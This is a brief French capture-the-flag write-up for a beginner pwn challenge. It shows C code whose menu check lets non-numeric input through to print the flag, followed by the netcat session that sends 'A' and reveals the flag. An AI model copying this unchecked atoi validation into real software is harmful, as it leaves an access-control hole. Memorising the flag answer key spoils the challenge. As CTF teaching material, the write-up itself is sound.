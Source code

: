 ## Code

Il suffit de fournir autre chose qu'un nombre ...

```c
        else if(atoi(buf)>4){
            printf("That's not an option\n");
            exit(0);
    }

    print_flag();
```

## Solution

```bash
┌─[night@night-20b7s2ex01]─[~/buckeyectf/pwn/beginner_menu]
└──╼ 4 fichiers, 32Kb)─$ nc chall.pwnoh.io 13371
Enter the number of the menu item you want:
1: Hear a joke
2: Tell you the weather
3: Play the number guessing game
4: Quit
A
bctf{y0u_ARe_sNeaKy}
```
